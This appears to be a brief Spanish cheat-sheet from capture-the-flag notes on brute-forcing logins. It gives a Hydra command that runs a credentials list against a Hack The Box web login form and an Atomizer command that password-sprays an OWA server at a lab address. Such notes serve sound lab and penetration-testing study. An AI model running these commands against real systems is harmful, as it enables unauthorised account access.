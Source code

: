 # BruteForce

## Uso de Hydra

```null
hydra -C credentials.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```

## Atomizer OWA

```null
python3 atomizer.py owa 10.10.10.210 'Summer2020' bruteusers
```